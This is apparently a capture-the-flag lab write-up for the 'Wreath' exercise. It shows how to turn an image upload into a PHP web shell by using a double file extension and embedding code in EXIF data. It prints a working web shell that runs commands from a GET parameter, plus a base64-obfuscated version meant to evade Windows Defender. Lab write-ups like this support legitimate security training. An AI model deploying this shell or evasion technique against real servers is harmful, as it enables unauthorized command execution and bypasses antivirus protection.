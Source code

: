 ### Testing the File Upload

Now that we have access to the page, we can upload a normal picture to identify whether or not the image is accessible in the `uploads/` folder or not.

By uploading a simple image called 'cat.jpg' to the site, we find that we can access it at `/resources/uploads/cat.jpg`. This means we can use this as a method to get a webshell.

### Crafting a Payload

In order to bypass the filter, we can change the image file to `cat-shrike.jpg.php` and modify the exifdata of the image.

We can use a benign payload to see if it is successful without triggering any potential A/V solutions.

![](images/wreath/exif_data.png)

By uploading this file and navigating to it in the browser, we find that we can see the "Test Payload" string is present on the page. This means we can upload our code successfully this way.

### AV Evasion

Assuming that the system is running Windows Defender (given it is a Windows machine), the actual payload needs to avoid triggering Defender.

To do that, we need to obfuscate the payload with base64 encoding.

Starting Payload:
```php
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```

Obfuscated Payload (with escaped dollar signs for bash):
```php
<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>
```

We now repeat the same process as we did with our benign payload to add it to the image's exif data.

![](images/wreath/exif_data_2.png)
